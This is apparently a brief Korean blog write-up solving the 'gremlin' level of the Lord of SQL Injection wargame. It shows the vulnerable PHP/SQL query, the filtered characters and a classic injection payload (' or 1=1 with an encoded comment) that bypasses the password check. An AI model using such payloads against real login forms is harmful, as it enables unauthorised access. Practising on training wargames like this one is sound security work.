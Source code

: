 ```yaml
---
title: "[LOS] gremlin"
date: 2025-03-20 00:00:00
categories: [Wargame, Lord of SQL Injection]
tags: [webhacking, sqli]
published: True
---
```


# Query

```sql
select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'
```

<br>

# preg_match

- `prob` 문자열
- `_`
- `.`
- `()`

<br>

# Payload

```
?id=asd' or 1=1 %23
```
